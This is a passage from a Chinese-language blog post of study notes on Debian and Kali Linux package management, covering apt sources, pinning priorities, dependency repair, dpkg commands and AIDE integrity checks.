class="line"> <span class="string">.</span></span><br><span class="line"> <span class="attr">Features include:</span></span><br><span class="line">  <span class="string">*</span> <span class="string">Full</span> <span class="string">support</span> <span class="string">for</span> <span class="string">Linux</span> <span class="string">FrameBuffer</span> <span class="string">device</span> <span class="string">(from</span> <span class="string">640x480x8bpp</span> <span class="string">to</span></span><br><span class="line">    <span class="string">1024x768x32bpp)</span></span><br><span class="line">  <span class="string">*</span> <span class="string">Multiple</span> <span class="string">language</span> <span class="string">support</span> <span class="string">(GB2312,</span> <span class="string">GBK,</span> <span class="string">BIG5,</span> <span class="string">JIS,</span> <span class="string">KSC)</span></span><br><span class="line">  <span class="string">*</span> <span class="string">Auto-detect</span> <span class="string">and</span> <span class="string">convert</span> <span class="string">between</span> <span class="string">GB2312</span> <span class="string">and</span> <span class="string">BIG5</span> <span class="string">encoding</span> <span class="string">(like</span> <span class="string">hztty)</span></span><br><span class="line">  <span class="string">*</span> <span class="string">Hot</span> <span class="string">key</span> <span class="string">to</span> <span class="string">change</span> <span class="string">language</span> <span class="string">encoding</span> <span class="string">on</span> <span class="string">the</span> <span class="string">fly</span></span><br><span class="line">  <span class="string">*</span> <span class="string">Can</span> <span class="string">use</span> <span class="string">input</span> <span class="string">method</span> <span class="string">from</span> <span class="string">MS</span> <span class="string">Windows</span> <span class="number">98</span> <span class="string">Chinese</span> <span class="string">version</span> <span class="string">or</span> <span class="string">UCDOS</span> <span class="string">for</span></span><br><span class="line">    <span class="string">MS-DOS</span></span><br></pre></td></tr></table></figure>
</li>
<li><p><code>apt-get source 【package】</code>  ：获取源代码包</p>
</li>
<li><p><code>apt-get update</code> : 更新软件包索引</p>
</li>
<li><p><code>apt-get upgrade</code> ：升级软件</p>
<ul>
<li><p><code>apt -t kali-rolling upgrade</code>  ：指定源进行更新。</p>
<blockquote>
<p>如果每次都想指定该源进行更新，在<code>/etc/apt/apt.conf.d/local</code>文件中加入：<code>APT::Default-Release ”[name of the distribution]（如kali-rolling）”;</code> </p>
</blockquote>
</li>
</ul>
</li>
</ul>
<hr>
<ul>
<li><code>apt-key add &lt; key.asc</code> ：用于添加第三方源的key</li>
<li><code>apt-key fingerprint</code> ：显示<code>/etc/apt/trusted.gpg</code> 信任的密钥<ul>
<li><code>gui-apt-key</code> ：利用图形界面</li>
</ul>
</li>
</ul>
<hr>
<ul>
<li><p>apt源：</p>
<figure class="highlight livecodeserver"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br></pre></td><td class="code"><pre><span class="line">/etc/apt/sources.list</span><br><span class="line">举例：</span><br><span class="line">deb <span class="keyword">https</span>://mirrors.tuna.tsinghua.edu.cn/debian/ buster main contrib non-free</span><br><span class="line">deb <span class="keyword">http</span>://<span class="keyword">http</span>.kali.org/kali kali-rolling main non-free contrib</span><br><span class="line"></span><br><span class="line">参数一：</span><br><span class="line">• deb <span class="keyword">for</span> binary packages,</span><br><span class="line">• deb-src <span class="keyword">for</span> source package</span><br><span class="line">参数二：</span><br><span class="line"><span class="built_in">URL</span>  支持：<span class="built_in">file</span>:// ;<span class="keyword">http</span>://   ;<span class="keyword">ftp</span>://   ;cdrom://   ;分别是本地源、网络、FTP、CD；CD源需要另外设置！</span><br><span class="line">参数三：</span><br><span class="line">The syntax <span class="keyword">of</span> <span class="keyword">the</span> <span class="keyword">last</span> field depends <span class="keyword">on</span> <span class="title">the</span> <span class="title">structure</span> <span class="title">of</span> <span class="title">the</span> <span class="title">repository</span></span><br><span class="line">× Main <span class="keyword">contains</span> all packages that fully comply <span class="keyword">with</span> <span class="keyword">the</span> Debian Free Software Guidelines   </span><br><span class="line">× The non-free archive is different because <span class="keyword">it</span> <span class="keyword">contains</span> software that does <span class="keyword">not</span> (entirely) conform <span class="built_in">to</span> these principles but which can nevertheless be distributed <span class="keyword">without</span> restrictions</span><br><span class="line">× Contrib (contributions) is <span class="keyword">a</span> <span class="built_in">set</span> <span class="keyword">of</span> <span class="built_in">open</span> source software that cannot <span class="function"><span class="keyword">function</span> <span class="title">without</span> <span class="title">some</span> <span class="title">non</span><span class="title">free</span> <span class="title">elements</span>. </span></span><br><span class="line"></span><br><span class="line">关于Kali镜像源：</span><br><span class="line">如果Kali更新源失败</span><br><span class="line">curl -<span class="variable">sI</span> <span class="keyword">http</span>://<span class="keyword">http</span>.kali.org/README 查看被重定向的地址</span><br><span class="line">If <span class="keyword">the</span> problem persists, you can edit /etc/apt/sources.list <span class="keyword">and</span> hardcode <span class="keyword">the</span></span><br><span class="line">name <span class="keyword">of</span> another known working mirror <span class="keyword">in</span> place <span class="keyword">of</span> (<span class="keyword">or</span> <span class="keyword">before</span>) <span class="keyword">the</span> <span class="keyword">http</span>.kali.org</span><br><span class="line">entry。</span><br><span class="line"><span class="keyword">http</span>.kali.org 可以引导你到最近的镜像网站</span><br><span class="line">➨ <span class="keyword">http</span>://cdimage.kali.org</span><br><span class="line">If you want <span class="built_in">to</span> request <span class="keyword">a</span> list <span class="keyword">of</span> official Kali Linux Mirrors, you can <span class="built_in">add</span> .mirrorlist <span class="built_in">to</span> <span class="keyword">any</span> valid URLpointing <span class="built_in">to</span> <span class="keyword">http</span>.kali.org <span class="keyword">or</span> cdimage.kali.org.</span><br><span class="line">➨ <span class="keyword">http</span>://<span class="keyword">http</span>.kali.org/README.mirrorlist</span><br><span class="line">➨ <span class="keyword">http</span>://cdimage.kali.org/README.mirrorli</span><br></pre></td></tr></table></figure>
</li>
<li><p>apt 优先级</p>
<figure class="highlight sql"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br></pre></td><td class="code"><pre><span class="line">In more concrete terms, a package whose priority is less than 0 will never be installed. A package <span class="keyword">with</span> a <span class="keyword">priority</span> ranging <span class="keyword">between</span> <span class="number">0</span> <span class="keyword">and</span> <span class="number">100</span> will <span class="keyword">only</span> be installed <span class="keyword">if</span> <span class="keyword">no</span> other <span class="keyword">version</span> <span class="keyword">of</span> the <span class="keyword">package</span> <span class="keyword">is</span> already installed. <span class="keyword">With</span> a <span class="keyword">priority</span> <span class="keyword">between</span> <span class="number">100</span> <span class="keyword">and</span> <span class="number">500</span>, the <span class="keyword">package</span> will <span class="keyword">only</span> be installed <span class="keyword">if</span> there <span class="keyword">is</span> <span class="keyword">no</span> other newer <span class="keyword">version</span> installed <span class="keyword">or</span> available <span class="keyword">in</span> another distribution. A <span class="keyword">package</span> <span class="keyword">of</span> <span class="keyword">priority</span> <span class="keyword">between</span> <span class="number">501</span> <span class="keyword">and</span> <span class="number">990</span> will <span class="keyword">only</span> be installed <span class="keyword">if</span> there <span class="keyword">is</span> <span class="keyword">no</span> newer <span class="keyword">version</span> installed <span class="keyword">or</span> available <span class="keyword">in</span> the target distribution. <span class="keyword">With</span> a <span class="keyword">priority</span> <span class="keyword">between</span> <span class="number">990</span> <span class="keyword">and</span> <span class="number">1000</span>, the <span class="keyword">package</span> will be installed <span class="keyword">except</span> <span class="keyword">if</span> the installed <span class="keyword">version</span> <span class="keyword">is</span> newer. A <span class="keyword">priority</span> greater <span class="keyword">than</span> <span class="number">1000</span> will <span class="keyword">always</span> <span class="keyword">lead</span> <span class="keyword">to</span> the installation <span class="keyword">of</span> the <span class="keyword">package</span> even <span class="keyword">if</span> it forces APT <span class="keyword">to</span> <span class="keyword">downgrade</span> <span class="keyword">to</span> an older <span class="keyword">version</span></span><br><span class="line"></span><br><span class="line"><span class="keyword">priority</span>:</span><br><span class="line">   &lt;<span class="number">0</span>      ==&gt;  优先级小于<span class="number">0</span>的包永远不会被安装 ,除非显示指定</span><br><span class="line">  <span class="number">0</span><span class="number">-100</span>    ==&gt;  只有在尚未安装包的其他版本时，才会安装</span><br><span class="line"><span class="number">100</span><span class="number">-500</span>    ==&gt;  只有不存在更新版本的包在其他源或者系统内时才会被安装</span><br><span class="line"><span class="number">501</span><span class="number">-990</span>    ==&gt;  只有不存在更新版本的包在系统内或者目标源</span><br><span class="line"><span class="number">990</span><span class="number">-1000</span>   ==&gt;  除非有更新版本才不会安装</span><br><span class="line">   &gt;<span class="number">1000</span>   ==&gt;  即使是低版本也会被安装</span><br><span class="line"></span><br><span class="line">APT优先原则：/etc/apt/preferences   或者/etc/apt/preferences.d/中的任何文件：</span><br><span class="line"><span class="comment">--------------------------------------------------------------</span></span><br><span class="line"><span class="comment"># 正常情况下kali-bleeding-edge源的优先级是1</span></span><br><span class="line"><span class="keyword">Package</span>: *</span><br><span class="line">Pin: <span class="keyword">release</span> a=kali-bleeding-edge</span><br><span class="line">Pin-<span class="keyword">Priority</span>: <span class="number">1</span></span><br><span class="line"><span class="comment">--------------------------------------------------------------</span></span><br><span class="line"><span class="comment"># 指定尽量用kali源</span></span><br><span class="line"><span class="keyword">Package</span>: *</span><br><span class="line">Pin: <span class="keyword">release</span> o=Kali</span><br><span class="line">Pin-<span class="keyword">Priority</span>: <span class="number">900</span></span><br><span class="line"></span><br><span class="line"><span class="keyword">Package</span>: *</span><br><span class="line">Pin: <span class="keyword">release</span> o=Debian</span><br><span class="line">Pin-<span class="keyword">Priority</span>: <span class="number">-10</span></span><br><span class="line"><span class="comment">--------------------------------------------------------------</span></span><br><span class="line"><span class="comment"># 指定某包的优先级   man apt_preferences 查看手册</span></span><br><span class="line"><span class="keyword">Package</span>: perl</span><br><span class="line">Pin: <span class="keyword">version</span> <span class="number">5.22</span>*</span><br><span class="line">Pin-<span class="keyword">Priority</span>: <span class="number">1001</span></span><br><span class="line"><span class="comment">--------------------------------------------------------------</span></span><br><span class="line"><span class="comment"># 添加comments（注释）</span></span><br><span class="line">Explanation: The <span class="keyword">package</span> xserver-xorg-video-intel provided</span><br><span class="line">Explanation: <span class="keyword">in</span> experimental can be used safely</span><br><span class="line"><span class="keyword">Package</span>: xserver-xorg-video-intel</span><br><span class="line">Pin: <span class="keyword">release</span> a=experimental</span><br><span class="line">Pin-<span class="keyword">Priority</span>: <span class="number">500</span></span><br><span class="line"><span class="comment">--------------------------------------------------------------</span></span><br><span class="line"></span><br><span class="line">如果apt <span class="keyword">install</span> <span class="keyword">package</span>/unstable失败提示缺少依赖组件，加上 -t unstable  让APT从指定源寻找安装依赖。这种情况安装下的包在apt <span class="keyword">upgrade</span>时只会按照安装源的信息更新。</span><br><span class="line">e.g.:</span><br><span class="line">【<span class="number">1</span>】假设从kali-<span class="keyword">rolling</span>(由于是目标源v1在kali-<span class="keyword">rolling</span>上是P=<span class="number">990</span>)安装v1（P=<span class="number">100</span>），而v2，v3分别在kali-dev（P=<span class="number">500</span>）和debian-unsable可用（P=<span class="number">500</span>）[未安装版本的优先级都是<span class="number">500</span>]。所以更新只会安装P=<span class="number">990</span>从kali-rolling.</span><br><span class="line">【<span class="number">2</span>】假设从kali-dev(由于是目标源v1在kali-<span class="keyword">rolling</span>上是P=<span class="number">990</span>)安装v2（P=<span class="number">100</span>），而v1，v3分别在kali-<span class="keyword">rolling</span>（P=<span class="number">990</span>）[v1&lt;v2，P&lt;<span class="number">1000</span>，丢弃]和debian-unsable可用（P=<span class="number">500</span>）。所以更新只会安装P=<span class="number">500</span>的更新版本v3，从debian-unstable。</span><br><span class="line"></span><br><span class="line">如果您不希望从Kali Dev安装的包迁移到Debian Unstable，那么必须为来自Debian Unstable的包分配低于<span class="number">500</span>（例如<span class="number">490</span>）的优先级。您可以修改/etc/apt/preferences以达到以下效果：</span><br><span class="line"><span class="keyword">Package</span>: *</span><br><span class="line">Pin: <span class="keyword">release</span> a=unstable</span><br><span class="line">Pin-<span class="keyword">Priority</span>: <span class="number">490</span></span><br></pre></td></tr></table></figure>
</li>
</ul>
<p>APT其他补充：</p>
<figure class="highlight routeros"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br></pre></td><td class="code"><pre><span class="line">=========================================================================================</span><br><span class="line">通过其他包的依赖安装的包叫做automatic，这通常还包括库。</span><br><span class="line">apt autoremove 来卸载这些不再需要的依赖</span><br><span class="line">apt-mark auto package 来标记某个你不怎么需要的包为依赖包，这样就可以在不需要他时由APT自动删除他</span><br><span class="line">apt-mark<span class="built_in"> manual </span>package  则相反</span><br><span class="line">如果你有aptitude，你可以使用aptitude why package来查看为什么这个包还存在于系统。</span><br><span class="line">$ aptitude why python-debian</span><br><span class="line">i aptitude Recommends apt-xapian-index</span><br><span class="line">i A apt-xapian-index Depends python-debian (&gt;= 0.1.15)</span><br><span class="line">=========================================================================================</span><br><span class="line">！！： 要谨慎使用 &#123; --force-*&#125; 的参数，因为这可能导致APT工具不能够正常使用，直到系统恢复正常。这通常见于在某次强制安装一个缺乏依赖组件或者不兼容的软件后。解决办法通常是安装缺失的依赖组件或者卸载那个有问题的包。出现这种情况的报错常见下图：</span><br><span class="line"><span class="comment"># apt full-upgrade</span></span><br><span class="line">[<span class="built_in">..</span>.]</span><br><span class="line">You might want <span class="keyword">to</span> <span class="builtin-name">run</span> ’apt-<span class="builtin-name">get</span> -f install’ <span class="keyword">to</span> correct these.</span><br><span class="line">The following packages have unmet dependencies:</span><br><span class="line">rdesktop: Depends: libc6 (&gt;= 2.5) but 2.3.6.ds1-13etch7 is installed</span><br><span class="line">E: Unmet dependencies. Try using -f .</span><br><span class="line"></span><br><span class="line">如果你是勇敢的。坚信自己分析是正确的，你可以使用-f来忽略冲突。如果你希望继续能够使用APT等工具，你需要编辑、修改甚至重写/var/lib/dpkg/status 文件中的依赖项或者冲突关系。但这种做法很苟，非到极端情况不用&#123;This manipulation is an ugly hack <span class="keyword">and</span> should never be used, except <span class="keyword">in</span> the most extreme case of necessity. &#125;所以解决这个问题的最经常用的方法便是：重新编译问题包裹或者使用新版本或后台端口版本（backports (backports are newer versions especially recompiled <span class="keyword">to</span> work <span class="keyword">in</span> an older environment)）</span><br><span class="line">=========================================================================================</span><br><span class="line">apt install w3af/kali-rolling &#123;Remember that you can specify a specific distribution with apt as well, which means you can roll back <span class="keyword">to</span> an older version of a package (<span class="keyword">if</span> <span class="keyword">for</span><span class="built_in"> instance </span>you know that it works well), provided that it is still available <span class="keyword">in</span> one of the sources referenced by the sources.list file:前提是它仍然在sources.list文件引用的其中一个源中可用&#125;</span><br><span class="line"></span><br><span class="line"><span class="keyword">In</span> this sense, all of the files <span class="keyword">in</span> /etc/apt/apt.conf.d/ are instructions <span class="keyword">for</span> the configuration of APT. APT processes the files <span class="keyword">in</span> alphabetical order, so that the later files can modify configuration elements defined <span class="keyword">in</span> the earlier files.</span><br><span class="line">=========================================================================================</span><br><span class="line">有时会因为维护者提供的脚本有问题而终止更新，脚本储存在`/var/lib/dpkg/info/` —— 通常是postinst脚本出问题。</span><br><span class="line"></span><br><span class="line">Dealing with Broken Maintainer Scripts Sometimes the<span class="built_in"> upgrade </span>gets interrupted because one of the package maintainer scripts fails (usually, it is the postinst). <span class="keyword">In</span> those cases, you can try <span class="keyword">to</span> diagnose the problem, <span class="keyword">and</span> possibly work around it, by editing the problematic script. Here we rely on the fact that maintainer scripts are stored <span class="keyword">in</span> /var/lib/dpkg/info/ <span class="keyword">and</span> that we can review <span class="keyword">and</span> modify them.Since maintainer scripts are usually<span class="built_in"> simple </span>shell scripts, it is possible <span class="keyword">to</span> <span class="builtin-name">add</span> a <span class="builtin-name">set</span> -x line just after the shebang line <span class="keyword">and</span> arrange them <span class="keyword">to</span> be rerun (with dpkg --configure -a <span class="keyword">for</span> postinst) <span class="keyword">to</span> see precisely what is happening <span class="keyword">and</span> where it is failing. This output can also nicely complement any bug report that you might file.With this newly gained knowledge, you can either fix the underlying problem <span class="keyword">or</span> transform the failing command into a working one (<span class="keyword">for</span> example by adding || <span class="literal">true</span> at the end of the line).Note that this tip does <span class="keyword">not</span> work <span class="keyword">for</span> a failing preinst since that<span class="built_in"> script </span>is executed even before the package gets installed so it is <span class="keyword">not</span> yet <span class="keyword">in</span> its final location. It does work <span class="keyword">for</span> postrm <span class="keyword">and</span> prerm although you will need <span class="keyword">to</span> execute a package removal (respectively upgrade) <span class="keyword">to</span> trigger them.</span><br><span class="line">=========================================================================================</span><br><span class="line">Delete wine.list/删除wine源</span><br><span class="line">rm /etc/apt/sources.list.d/wine.list</span><br><span class="line">=========================================================================================</span><br><span class="line"> There are two ways a<span class="built_in"> system </span>can <span class="builtin-name">get</span> into a broken state like this. The first is caused by dpkg missing some subtle relationships between packages when performing upgrades. [3]. The second is <span class="keyword">if</span> a package installation fails during an operation. <span class="keyword">In</span> this situation a package may have been unpacked without its dependents being installed. </span><br><span class="line">=========================================================================================</span><br></pre></td></tr></table></figure>
<h3 id="DPKG常用命令解析"><a href="#DPKG常用命令解析" class="headerlink" title="DPKG常用命令解析"></a>DPKG常用命令解析</h3><figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br></pre></td><td class="code"><pre><span class="line">+++++++++++++++++++++++++++++++++++++++++++++++++++</span><br><span class="line"># 对比版本数字大小                                   |</span><br><span class="line">dpkg --compare-versions 【xxx】 【op】 【yyy】      |</span><br><span class="line">e.g.:                                             |</span><br><span class="line">$ dpkg --compare-versions <span class="number">1.2</span><span class="number">-3</span> gt <span class="number">1.1</span><span class="number">-4</span>          |</span><br><span class="line">$ echo $?                                         |</span><br><span class="line"><span class="number">0</span>                                                 |</span><br><span class="line">$ dpkg --compare-versions <span class="number">1.2</span><span class="number">-3</span> lt <span class="number">1.1</span><span class="number">-4</span>          |</span><br><span class="line">$ echo $?                                         |</span><br><span class="line"><span class="number">1</span>                                                 |</span><br><span class="line">$ dpkg --compare-versions <span class="number">2.6</span><span class="number">.0</span>pre3<span class="number">-1</span> lt <span class="number">2.6</span><span class="number">.0</span><span class="number">-1</span>  | </span><br><span class="line">$ echo $?                                         |</span><br><span class="line"><span class="number">1</span>                                                 |</span><br><span class="line">+++++++++++++++++++++++++++++++++++++++++++++++++++</span><br><span class="line"></span><br><span class="line"># 返回结果：</span><br><span class="line">lt  ==&gt;  strictly less than        &gt;绝对低于</span><br><span class="line">le  ==&gt;  less than <span class="keyword">or</span> equal to     &gt;低于或相同</span><br><span class="line">eq  ==&gt;  equal                     &gt;相同</span><br><span class="line">ne  ==&gt;  <span class="keyword">not</span> equal                 &gt;不同</span><br><span class="line">ge  ==&gt;  greater than <span class="keyword">or</span> equal to  &gt;更高级或相同</span><br><span class="line">gt  ==&gt;  strictly greater than     &gt;绝对更高</span><br><span class="line"><span class="number">0</span>   ==&gt;  成功</span><br><span class="line">!<span class="number">0</span>  ==&gt;  失败，返回非零数字</span><br><span class="line"></span><br><span class="line"># 意外情况--最后一种带有‘pre’，指的是‘预发布的’，但dpkg把他诠释为字符串。这种情况下，<span class="number">2.6</span><span class="number">.0</span>pre3<span class="number">-1</span>按字母表排序大于<span class="number">2.6</span><span class="number">.0</span><span class="number">-1</span>，所以用‘～’指示预发行。</span><br><span class="line">$ dpkg --compare-versions <span class="number">2.6</span><span class="number">.0</span>~pre3<span class="number">-1</span> lt <span class="number">2.6</span><span class="number">.0</span><span class="number">-1</span></span><br><span class="line">$ echo $?</span><br><span class="line"><span class="number">0</span></span><br><span class="line"></span><br><span class="line">所以这个结果才是正确的，<span class="number">2.6</span><span class="number">.0</span>~pre3<span class="number">-1</span> &lt; <span class="number">2.6</span><span class="number">.0</span><span class="number">-1</span></span><br></pre></td></tr></table></figure>
<ul>
<li><p><code>dpkg -P 【Package】</code> : 清除所有关联文件</p>
</li>
<li><p><code>dpkg -c /var/cache/apt/archives/gnupg_1.4.18-6_amd64.deb</code> ：显示deb中包含的文件</p>
</li>
<li><p><code>dpkg -I /var/cache/apt/archives/gnupg_1.4.18-6_amd64.deb</code> ：显示包的头信息</p>
</li>
<li><p><code>dpkg --print-architecture</code> ：返回本计算机dpkg只安装的包的架构版本</p>
</li>
<li><p><code>dpkg --get-selections | grep -v deinstall</code> ：获取在本地安装的软件包列表，-v标记”反转”grep返回不匹配行</p>
</li>
<li><p><code>dpkg -I 【package】</code> ：查看apt包</p>
<figure class="highlight yaml"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br></pre></td><td class="code"><pre><span class="line"><span class="string">$</span> <span class="string">dpkg</span> <span class="string">-I</span> <span class="string">apt_1.4~beta1_amd64.deb</span> <span class="string">control</span>        </span><br><span class="line"><span class="attr">Package:</span> <span class="string">apt</span></span><br><span class="line"><span class="attr">Version:</span> <span class="number">1.4</span><span class="string">~beta1</span></span><br><span class="line"><span class="attr">Architecture:</span> <span class="string">amd64</span></span><br><span class="line"><span class="attr">Maintainer:</span> <span class="string">APT</span> <span class="string">Development</span> <span class="string">Team</span> <span class="string">&lt;deity@lists.debian.org&gt;</span></span><br><span class="line"><span class="attr">Installed-Size:</span> <span class="number">3478</span></span><br><span class="line"><span class="attr">Depends:</span> <span class="string">adduser,</span> <span class="string">gpgv</span> <span class="string">|</span> <span class="string">gpgv2</span> <span class="string">|</span> <span class="string">gpgv1,</span> <span class="string">debian-archive-keyring,</span> <span class="string">init-system-helpers</span> <span class="string">(&gt;=</span> <span class="string">➥</span> <span class="number">1.18</span><span class="string">~),</span> <span class="string">libapt-pkg5.0</span> <span class="string">(&gt;=</span> <span class="number">1.3</span><span class="string">~rc2),</span> <span class="string">libc6</span> <span class="string">(&gt;=</span> <span class="number">2.15</span><span class="string">),</span> <span class="string">libgcc1</span> <span class="string">(&gt;=</span> <span class="number">1</span><span class="string">:3.0)，➥</span> <span class="string">libstdc++6</span> <span class="string">(&gt;=</span> <span class="number">5.2</span><span class="string">)</span></span><br><span class="line"></span><br><span class="line"><span class="string">依赖项：</span></span><br><span class="line"><span class="string">，=</span> <span class="string">AND</span></span><br><span class="line"><span class="string">|</span> <span class="string">=</span> <span class="string">OR</span></span><br><span class="line"><span class="string">|</span> <span class="string">的优先级大于</span> <span class="string">，</span>  <span class="string">==&gt;</span>  <span class="string">所以：it</span> <span class="string">is</span> <span class="string">an</span> <span class="string">inclusive</span> <span class="string">“OR,”</span> <span class="string">not</span> <span class="string">an</span> <span class="string">exclusive</span> <span class="string">“either/or"</span> <span class="string">兼或Inclusive</span> <span class="string">or</span> <span class="string">和</span> <span class="string">异或exclusive</span> <span class="string">or</span></span><br><span class="line"></span><br><span class="line"><span class="comment">##################################</span></span><br><span class="line"><span class="comment">#  OR   inclusive  |  exclusive  #</span></span><br><span class="line"><span class="comment"># -----            |             #</span></span><br><span class="line"><span class="comment"># IN-1:  0 0 1 1   |   0 0 1 1   #</span></span><br><span class="line"><span class="comment">#                  |             #</span></span><br><span class="line"><span class="comment"># IN-2:  0 1 0 1   |   0 1 0 1   #</span></span><br><span class="line"><span class="comment">#                  |             #</span></span><br><span class="line"><span class="comment"># OUT :  0 1 1 1   |   0 1 1 0   #</span></span><br><span class="line"><span class="comment">##################################</span></span><br><span class="line"><span class="string">总结：inclusive：包含</span>   <span class="string">exclusive：二选一</span></span><br><span class="line"><span class="string">(A</span> <span class="string">OR</span> <span class="string">B)</span> <span class="string">AND</span> <span class="string">C</span>  <span class="string">==&gt;</span>  <span class="string">A|B,C</span></span><br><span class="line"><span class="string">A</span> <span class="string">OR</span> <span class="string">(B</span> <span class="string">AND</span> <span class="string">C)</span> <span class="string">==&gt;</span>  <span class="string">(A</span> <span class="string">OR</span> <span class="string">B)</span> <span class="string">AND</span> <span class="string">(A</span> <span class="string">OR</span> <span class="string">C)</span> <span class="string">==&gt;</span> <span class="string">A|B,A|C</span></span><br><span class="line"></span><br><span class="line"><span class="string">•</span> <span class="string">&lt;&lt;:</span> <span class="string">less</span> <span class="string">than;</span></span><br><span class="line"><span class="string">•</span> <span class="string">&lt;=:</span> <span class="string">less</span> <span class="string">than</span> <span class="string">or</span> <span class="string">equal</span> <span class="string">to;</span></span><br><span class="line"><span class="string">•</span> <span class="string">=:</span> <span class="string">equal</span> <span class="string">to</span> <span class="string">(note</span> <span class="string">that</span> <span class="string">“2.6.1”</span> <span class="string">is</span> <span class="string">not</span> <span class="string">equal</span> <span class="string">to</span> <span class="string">“2.6.1-1”);</span></span><br><span class="line"><span class="string">•</span> <span class="string">&gt;=:</span> <span class="string">greater</span> <span class="string">than</span> <span class="string">or</span> <span class="string">equal</span> <span class="string">to;</span></span><br><span class="line"><span class="string">•</span> <span class="string">&gt;&gt;:</span> <span class="string">greater</span> <span class="string">than</span></span><br></pre></td></tr></table></figure>
</li>
<li><p><code>dpkg 【-i/-r/-L/-s/-l】</code> :安装、卸载、显示package中的文件、显示原信息、显示安装信息</p>
<ul>
<li><p><code>dpkg -r 【package】</code> ：这个卸载并不完全，所有配置文件、维护程序脚本、日志文件（系统日志）、守护进程生成的数据（例如LDAP服务器目录的内容或SQL服务器数据库的内容）以及包处理的大多数其他用户数据都保持完整，包括依赖组件。</p>
</li>
<li><p><code>dpkg -V</code>  通过与/var/lib/dpkg/info/package.md5sums的比较，显示系统中已安装的包中被修改过的文件</p>
<figure class="highlight dts"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br></pre></td><td class="code"><pre><span class="line">$ dpkg -V</span><br><span class="line">??<span class="number">5</span>?????? <span class="meta-keyword">/lib/</span>systemd<span class="meta-keyword">/system/</span>ssh.service   <span class="comment">//人为修改</span></span><br><span class="line">??<span class="number">5</span>?????? c <span class="meta-keyword">/etc/</span>libvirt<span class="meta-keyword">/qemu/</span>networks/default.xml <span class="comment">// c表示合法修改</span></span><br><span class="line">??<span class="number">5</span>?????? c <span class="meta-keyword">/etc/</span>lvm/lvm.conf</span><br><span class="line">??<span class="number">5</span>?????? c <span class="meta-keyword">/etc/</span>salt/roster</span><br></pre></td></tr></table></figure>
</li>
<li><p>AIDE 用数据库来检测文件更改。</p>
<figure class="highlight gradle"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line">apt install aide</span><br><span class="line">aideinit     初始化</span><br><span class="line">可以修改配置：<span class="regexp">/etc/</span><span class="keyword">default</span><span class="regexp">/aide</span></span><br></pre></td></tr></table></figure>
</li>
</ul>
